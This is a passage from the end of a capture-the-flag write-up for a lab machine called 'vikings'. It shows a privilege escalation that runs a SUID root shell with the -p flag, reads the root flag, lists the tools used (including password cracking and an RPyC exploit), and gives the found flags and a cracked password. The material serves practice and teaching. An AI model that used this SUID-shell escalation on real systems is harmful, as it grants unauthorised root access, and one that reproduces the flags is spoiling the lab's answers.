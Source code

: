 The `rwsr-sr-x` permissions confirmed that `rootsh` was now a SUID binary owned by root. I executed it:

```shellscript
ragnar@vikings:~$ /tmp/rootsh -p
```

The `-p` flag is important to ensure that the effective UID (euid) is preserved, allowing the shell to run with root privileges.

```shellscript
rootsh-4.4# id
uid=1001(ragnar) gid=1001(ragnar) euid=0(root) egid=0(root) groups=0(root),1001(ragnar)
```

I had successfully escalated privileges to root!

### Root Flag

With root privileges, I navigated to the `/root` directory to find the final flag.

```shellscript
rootsh-4.4# cd /root
rootsh-4.4# ls
root.txt
rootsh-4.4# cat root.txt
f0b98d4387ff6da77317e582da98bf31
```

**Root Flag:** `f0b98d4387ff6da77317e582da98bf31`

### Tools Used

- `netdiscover` - Network discovery
- `nmap` - Port scanning and service version detection
- `gobuster` - Directory and file enumeration
- `curl` - Interacting with web services
- `base64` - Decoding base64 encoded data
- `zip2john` - Converting ZIP files to hash format
- `john` - Cracking password hashes
- `7z` - Extracting ZIP files
- `file` - Identifying file types
- `binwalk` - Extracting hidden files from images (steganography)
- `ssh` - Secure shell access
- `python3` - Running custom scripts for RPyC exploitation
- `linpeas.sh` - Linux privilege escalation enumeration script
- `netstat` - Checking network connections and listening ports
- `su` - Switching user


### Flags Found

1. **User Flag (floki):** `f@m0usboatbuilde7` (password for floki)
2. **User Flag (ragnar):** `4bf930187d0149a9e4374a4e823f867d`
3. **Root Flag:** `f0b98d4387ff6da77317e582da98bf31`
